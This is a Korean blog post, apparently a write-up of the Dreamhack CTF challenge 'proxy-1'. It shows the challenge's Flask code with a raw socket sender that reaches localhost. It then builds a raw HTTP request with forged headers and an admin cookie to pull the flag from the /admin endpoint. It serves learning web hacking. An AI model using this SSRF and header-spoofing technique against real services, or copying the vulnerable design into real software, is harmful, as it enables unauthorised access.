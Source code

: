 ```yaml
---
title: (1) Dreamhack proxy-1 문제 풀이
date: 2024-01-06 +09:00
categories:
  - 웹해킹
tags:
  - [웹해킹, 드림핵]
---
```

{% raw %}
## 문제 설명
Raw Socket Sender가 구현된 서비스입니다.  
요구하는 조건을 맞춰 플래그를 획득하세요. 플래그는 flag.txt, FLAG 변수에 있습니다.

## 문제 풀이
일단 사이트에 접속해 봅니다.
![](http://kyuyeop.github.io/assets/img/post/1/1.png)
이런 사이트가 나타납니다. Raw Socket Sender에서 플래그를 획득해야 하니 들어가 봅니다.
![](http://kyuyeop.github.io/assets/img/post/1/2.png)
사이트만 봐도 host port data의 입력값을 그대로 보내줄것 같이 생겼습니다. 이제 코드를 확인해 봅시다.
```python
#!/usr/bin/python3
from flask import Flask, request, render_template, make_response, redirect, url_for
import socket

app = Flask(__name__)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/socket', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('socket.html')
    elif request.method == 'POST':
        host = request.form.get('host')
        port = request.form.get('port', type=int)
        data = request.form.get('data')

        retData = ""
        try:
            with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
                s.settimeout(3)
                s.connect((host, port))
                s.sendall(data.encode())
                while True:
                    tmpData = s.recv(1024)
                    retData += tmpData.decode()
                    if not tmpData: break
            
        except Exception as e:
            return render_template('socket_result.html', data=e)
        
        return render_template('socket_result.html', data=retData)


@app.route('/admin', methods=['POST'])
def admin():
    if request.remote_addr != '127.0.0.1':
        return 'Only localhost'

    if request.headers.get('User-Agent') != 'Admin Browser':
        return 'Only Admin Browser'

    if request.headers.get('DreamhackUser') != 'admin':
        return 'Only Admin'

    if request.cookies.get('admin') != 'true':
        return 'Admin Cookie'

    if request.form.get('userid') != 'admin':
        return 'Admin id'

    return FLAG

app.run(host='0.0.0.0', port=8000)
```
flask로 구현된 코드이고, socket페이지의 폼에서 입력된 값을 보낸 다음 값을 받아오는 걸 볼 수 있습니다.  
여기서 주의깊게 봐야할 곳은 admin페이지 입니다.
```python
@app.route('/admin', methods=['POST'])
def admin():
    if request.remote_addr != '127.0.0.1':
        return 'Only localhost'

    if request.headers.get('User-Agent') != 'Admin Browser':
        return 'Only Admin Browser'

    if request.headers.get('DreamhackUser') != 'admin':
        return 'Only Admin'

    if request.cookies.get('admin') != 'true':
        return 'Admin Cookie'

    if request.form.get('userid') != 'admin':
        return 'Admin id'

    return FLAG
```
코드를 보아하니 admin페이지에 post 형식으로 다음과 같은 데이터를 보내면 flag가 출력된다고 합니다.  
만약 잘못된 데이터를 보냈다면 그에 맞는 에러 메세지를 보내줄 겁니다.  
```
1.클라이언트 ip=127.0.0.1  
2.User-Agent 헤더=Admin Browser  
3.DreamhackUser 헤더=admin  
4.admin 쿠키=true  
5.form에서 전송된 userid=admin  
```

먼저 클라이언트 ip=127.0.0.1이어야 하고, 로컬에서 8000번 포트를 사용중이므로
```
host:127.0.0.1
port:8000
```
다음과 같이 설정해 줍니다. 2~5조건에 맞추어 data를 구성해봅니다.
```
POST /admin HTTP/1.1
Host: host3.dreamhack.games
```
먼저 기본적인 틀을 만들어 주었습니다.  
헤더로 전송되는 데이터 2개를 추가해보겠습니다. 헤더에서 데이터는 헤더:값 형태로 전달해 줄 수 있습니다.
```
POST /admin HTTP/1.1
Host: host3.dreamhack.games
User-Agent:Admin Browser
DreamhackUser:admin
```
쿠키는 cookie: 쿠키=값 형태로 전달합니다.
```
POST /admin HTTP/1.1
Host: host3.dreamhack.games
User-Agent:Admin Browser
DreamhackUser:admin
cookie: admin=true
```
form으로 userid를 보내줘야하기 때문에 Content-Type은 application/x-www-form-urlencoded로, Content-Length는 userid=admin의 길이인 12로 설정, body는 userid=admin으로 설정했습니다.
```
POST /admin HTTP/1.1
Host: host3.dreamhack.games
User-Agent:Admin Browser
DreamhackUser:admin
cookie: admin=true
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

userid=admin
```
![](http://kyuyeop.github.io/assets/img/post/1/3.png)
이렇게 설정하고 send를 누르면
![](http://kyuyeop.github.io/assets/img/post/1/4.png)
DH로 시작하는 flag를 얻을 수 있습니다. 
   
LEVEL 1에 해당하는 문제라 http requset의 데이터 구조만 알고 있다면 어렵지 않게 풀 수 있었습니다.  
저는 생각난 김에 http header 복습하로 가겠습니다.
{% endraw %}